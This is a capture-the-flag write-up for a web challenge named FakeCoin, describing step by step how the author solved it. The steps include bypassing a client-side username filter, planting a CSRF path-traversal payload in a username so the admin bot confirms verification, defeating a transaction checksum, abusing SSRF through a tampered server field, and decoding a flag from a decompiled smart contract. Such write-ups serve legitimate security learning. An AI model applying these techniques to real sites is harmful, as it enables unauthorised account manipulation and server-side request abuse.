# FakeCoin - Web - 1000 pts
## Challenge Description


## Intro
Visiting the supplied link brings us to the FakeCoin home page


Apparently we need an account to proceed, however clicking on Signup shows that only invited users are allowed to create account, bummer :(




I saw that it initially went to the signup page but was immidiately redirected, so I tried fetching the same page with curl.

```bash
curl http://165.22.122.9/signup
```

Which responded with the registration page! Now we can hopefully create an account
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Sign-Up</title>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
</head>
<body>
<div class="container-fluid" style="padding:0">
    <nav class="navbar navbar-default">
        <div class="container-fluid">
            <div class="navbar-header">
                <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#bs-example-navbar-collapse-1" aria-expanded="false">
                    <span class="sr-only">Toggle navigation</span>
                    <span class="icon-bar"></span>
                    <span class="icon-bar"></span>
                    <span class="icon-bar"></span>
                </button>
                <a class="navbar-brand" href="/">FakeCoin</a>
            </div>
            <div class="collapse navbar-collapse" id="bs-example-navbar-collapse-1">
                <ul class="nav navbar-nav navbar-right">
                    <ul class="nav navbar-nav">
                                                    <li><a href="/login">Login</a></li>
                            <li><a href="/signup">Signup</a></li>
                                            </ul>
                </ul>
            </div>
        </div>
    </nav>
</div><div class="container" style="padding-top:60px">
    <h1 class="text-center">Sign Up</h1>
    <div class="row">
        <div class="col-md-6 col-md-offset-3">
                        <div class="panel panel-default">
                <div class="panel-heading">Sign Up</div>
                <div class="panel-body">
                    <form method="post">
                        <div><label>Username:</label></div>
                        <div><input name="signup_frm_username" class="form-control"></div>
                        <div style="margin-top:7px"><label>Password:</label></div>
                        <div><input type="password" name="signup_frm_password" class="form-control"></div>
                        <div style="margin-top:7px" class="text-right">
                            <input type="submit" class="btn btn-success" value="Create Account">
                        </div>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
<script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js" integrity="sha384-Tc5IQib027qvyjSMfHjOMaLkfuWVxZxUPnCJA7l2mCWNIpG9mGCD8wGNIcPD7Txa" crossorigin="anonymous"></script>
<script src="/assets/app.js?_x=1611927134"></script>
</body>
```


So lets create a account!
```bash
curl -X POST 'http://165.22.122.9/signup' -F 'signup_frm_username=randomname' -F 'signup_frm_password=randompassword'
```

after login with created account at, we can see a message that we need to verify our account and that we can get 10 FakeCoins for doing that, free money.




clicking on `Verify Account` takes you to the verify page which had a verification form, unfortunately I forgot to take screenshot of that form :( In the form there were three inputs

1. First Name
2. Last Name
3. Verification image (said a drivers licence, etc) 

Trying with random names and random image brings you to the `state` page where you could see the result of your verifications, random attempt was denied after few seconds. 



Takeaways:

1. There is likely a "admin" bot, checking the verifications
2. Messing with the file upload did not lead anywhere

After investigating the pages a little bit more, we can see a javascript file, called `app.js?_x=1611927178`.


```javascript

function getVerification(id){
    $.getJSON('/verify/' + id + '.json',function(resp){
        let profile_picture = '/user/' + resp.user.username + '/profile.jpg';
        let confirm_link = '/verify/' + resp.user.hash + '/confirm';
        let deny_link = '/verify/' + resp.id + '/deny';
        let client_name = resp.firstname + '' + resp.lastname;
        $('div.client_name').html(client_name);
        $('img.profile_picture').attr('src',profile_picture);
        $('img.proof_picture').attr('src', resp.proof_img );
        $('a.confirm_link').attr('href',confirm_link);
        $('a.deny_link').attr('href',deny_link);
    }).fail(function(){
        alert('failed');
    });
}


function checkUsername(e){
    e.val(e.val().toLowerCase().replace(/[\W_]+/g,""));
}

$('input[name="update_frm_username"]').keyup( function(){
    checkUsername($(this));
});

$('input[name="update_frm_username"]').change( function(){
    checkUsername($(this));
});

$('input[name="signup_frm_username"]').change( function(){
    checkUsername($(this));
});

$('input[name="signup_frm_username"]').keyup( function(){
    checkUsername($(this));
});
```

That is interesting! Since there is the `getVerification` function, we can assume that the bot is loading this piece of js too, we can also see some client-side sanitization/filtering done on username field. Hmmm, username field, after playing with the site for a moment I found out there is also an option to change your username.



## Initial Vector
Lets have a closer look at the js code for a XSS or CSRF vector
```javascript
function getVerification(id){
    $.getJSON('/verify/' + id + '.json',function(resp){
        let profile_picture = '/user/' + resp.user.username + '/profile.jpg';
        let confirm_link = '/verify/' + resp.user.hash + '/confirm';
        let deny_link = '/verify/' + resp.id + '/deny';
        let client_name = resp.firstname + '' + resp.lastname;
        $('div.client_name').html(client_name);
        $('img.profile_picture').attr('src',profile_picture);
        $('img.proof_picture').attr('src', resp.proof_img );
        $('a.confirm_link').attr('href',confirm_link);
        $('a.deny_link').attr('href',deny_link);
    }).fail(function(){
        alert('failed');
    });
}
```

We know the `id` from the `status` page, so lets try request the `/verify/<id>.json` and indeed we got a 403 error, which made me believe that XSS/CSRF is indeed a way forward. Takeaways here:

1. `client_name`, composed from first and last name are just injected to DOM without any sanitization. In the end I did not used those fields at all. 
2. Bot has two links available, to either deny or confirm the verification process. 
3. Its loading our profile picture (changing profile picture was disabled so there was a default one)
4. In the picture url, we can actually control the `user.username` with the change name functionality from above.

See where this is going? By choosing a malicious username we can in theory control the image source field to perform CSRF to verify our application process before the bot has a chance to deny it.

The confirmation link would looks like this
```
/verify/<user-hash>/confirm
```

Here are two problems, both of which can be solved by intercepting the change name request with a proxy like burp.

- We do not know the hash of the user
- We cannot create such name from the webapp itself as there is the filtering taking place in `app.js?_x=1611927178`

But, we can bypass this client-side filtering and we can get the user hash from either the intercepted request, or from the hidden field in the change name form.

So lets change our name and intercept the request in burp proxy.



So lets rewrite this request to the following (the ?anything= is there to get rid of the `/profile.jpg` that is being appended to the username)



We can now check if this works by navigated to the change name page in the webapp to see if our name changed. And it worked!



So the URL would now looks like this
```
/user/../verify/<hash>/confirm?anything=/profile.jpg
```


After trying another verification process with random values our account now gets verified thanks to CSRF, and we are greeted with the dashboard page :)



Do this once more so you have two wallet addresses (you cannot send money to yourself) and we can continue.


## Transactions
We can now send a transaction to the other wallet and intercept the request again.



There are three fields
 - `txn` - base64 encoded transaction data
 - `to_wallet` - recipient wallet address
 - `amount` - amount of coins to send

 
At first I tried SQLi in all three fields without luck, so moving on, lets decode the `txn` field:
```bash
echo eyJkYXRhIjoiZXlKMGVHNWZhV1FpT2lJME1UY3dZMkV5WTJaaU9EUmpZMkV3WVRnM1pXTmpaR1prTjJZelpUSmlNQ0lzSW5SNGJsOXpaWEoyWlhJaU9pSnViMlJsTVNKOSIsImNoYWxsZW5nZSI6Ijk1YTAxNmNiZWQzZjBiNmM0NWY5ZmE1OGExZGIzZTkwIn0= | base64 -d
{"data":"eyJ0eG5faWQiOiI0MTcwY2EyY2ZiODRjY2EwYTg3ZWNjZGZkN2YzZTJiMCIsInR4bl9zZXJ2ZXIiOiJub2RlMSJ9","challenge":"95a016cbed3f0b6c45f9fa58a1db3e90"}
```

`data` is again base64 encoded string and `challenge` is a MD5 hash - maybe some checksum? Lets decode again the `data` field:
```bash
echo eyJ0eG5faWQiOiI0MTcwY2EyY2ZiODRjY2EwYTg3ZWNjZGZkN2YzZTJiMCIsInR4bl9zZXJ2ZXIiOiJub2RlMSJ9 | base64 -d
{"txn_id":"4170ca2cfb84cca0a87eccdfd7f3e2b0","txn_server":"node1"}
```

Interesting, got stuck here for many hours. I wrote a python script so ugly I wont even post it here to be able to mess with the transactions field and send it to the server using python's request module. After some fuzzing I found out that if you change `txn_server` you'll get `Tampering detected error`, so apparently the `challenge` field is really some kind of checksum.

After many many hours I tried changing the `challenge` field to `1` and suddenly the tampered payload went through, looks like we bypassed the checksum! (after some tinkering I replaced `1` with `True` as that worked 100% of the time)

After some more tinkering I though the `node1` might be a subdomain, like `node1.myfakecoinserver.com` so I tried supplying my ngrok URL instead but no hit there, went to take a nap at this point.

After waking up I realized that the rest of the domain is likely the reason its not working, because it was trying to access `https://myngrokurl.com.myfakecoinserver.com` which is still targeting the challenge server, so I put # at the end of ngrok url and boom! SSRF from the challenge server, got hit on ngrok.



Formatted Response
```json
{"address":"0xe4EAa4e977dc9A69E6087EFe42f8702Ac8F5AC91","code":"pragma solidity ^0.6;

interface ERC20 {
    function balanceOf(address account) external view returns (uint256);
    function mint(address to, uint256 amount) external;
}

contract fakecoin {

    ERC20 token;
    bytes32 brrr = bytes32("REDACTED");
    constructor(address _token) public{
        token = ERC20(_token);
    }

    function gib_flag() public view returns(uint8[] memory) {
        require(token.balanceOf(msg.sender) >= 3e18, "you are too poor for getting our secret flag");
        return "congrats here it's, flag{}";
    }

    function mint_tokens(bytes32 secret, bytes8 _key) public returns(string memory){
        require(msg.sender != tx.origin, "you can't mint to yourself !!!!");
        require(secret == brrr, "secrets don't match");

        if (uint32(uint64(_key)) == uint16(tx.origin)){
            token.mint(tx.origin, 3e18);
        }
    }
}"}
```

This is a contract's address and the contract itself! According to this we need to mint_tokens and then call gib_flag, hmm, no idea how. Lets disassemble the contract address here https://rinkeby.etherscan.io/bytecode-decompiler?a=0xe4EAa4e977dc9A69E6087EFe42f8702Ac8F5AC91



Which yields this dissasembled code, the end of that is really suspicious

```
#
#  Panoramix v4 Oct 2019 
#  Decompiled source of rinkeby:0xe4EAa4e977dc9A69E6087EFe42f8702Ac8F5AC91
# 
#  Let's make the world open source 
# 

def storage:
  stor0 is addr at storage 0
  stor1 is uint256 at storage 1

def _fallback() payable: # default function
  revert

def unknown72c0fe58(uint256 _param1) payable: 
  require calldata.size - 4 >= 64
  if tx.origin == caller:
      revert with 0, 'you can't mint to yourself !!!!'
  if _param1 != stor1:
      revert with 0, 'secrets don't match'
  if 0 == uint16(tx.origin):
      require ext_code.size(stor0)
      call stor0.mint(address to, uint256 amount) with:
           gas gas_remaining wei
          args tx.origin, 3 * 10^18
      if not ext_call.success:
          revert with ext_call.return_data[0 len return_data.size]
  return ' '

def unknown197e7773() payable: 
  require ext_code.size(stor0)
  static call stor0.balanceOf(address owner) with:
          gas gas_remaining wei
         args caller
  if not ext_call.success:
      revert with ext_call.return_data[0 len return_data.size]
  require return_data.size >= 32
  if ext_call.return_data < 3 * 10^18:
      revert with 0, 32, 44, 0xfe796f752061726520746f6f20706f6f7220666f722067657474696e67206f75722073656372657420666c61, mem[1168 len 20]
  mem[2016 len 960] = call.data[calldata.size len 960]
  mem[3936] = 126
  mem[3968] = 116
  mem[4000] = 121
  mem[4032] = 127
  mem[4064] = 99
  mem[4096] = 117
  mem[4128] = 40
  mem[4160] = 118
  mem[4192] = 125
  mem[4224] = 97
  mem[4256] = 71
  mem[4288] = 104
  mem[4320] = 106
  mem[4352] = 41
  mem[4384] = 118
  mem[4416] = 108
  mem[4448] = 43
  mem[4480] = 106
  mem[4512] = 71
  mem[4544] = 127
  mem[4576] = 40
  mem[4608] = 71
  mem[4640] = 122
  mem[4672] = 106
  mem[4704] = 106
  mem[4736] = 40
  mem[4768] = 41
  mem[4800] = 43
  mem[4832] = 45
  mem[4864] = 101
  idx = 0
  while idx < 30:
      mem[(32 * idx) + 2016] = uint8(24 xor mem[(32 * idx) + 3936])
      idx = idx + 1
      continue 
  return memory
    from 2016
     len 960
```

We can now try to write a simple python script to reverse this into (hopefully) flag.

```python
mem=[0]*10000
mem[3936] = 126
mem[3968] = 116
mem[4000] = 121
mem[4032] = 127
mem[4064] = 99
mem[4096] = 117
mem[4128] = 40
mem[4160] = 118
mem[4192] = 125
mem[4224] = 97
mem[4256] = 71
mem[4288] = 104
mem[4320] = 106
mem[4352] = 41
mem[4384] = 118
mem[4416] = 108
mem[4448] = 43
mem[4480] = 106
mem[4512] = 71
mem[4544] = 127
mem[4576] = 40
mem[4608] = 71
mem[4640] = 122
mem[4672] = 106
mem[4704] = 106
mem[4736] = 40
mem[4768] = 41
mem[4800] = 43
mem[4832] = 45
mem[4864] = 101
flag = ""
for i in range(30):
    flag += chr(24^mem[(32*i)+3936])
print(flag)
```

After running this we finally got the flag!
```
flag{m0ney_pr1nt3r_g0_brr0135}
```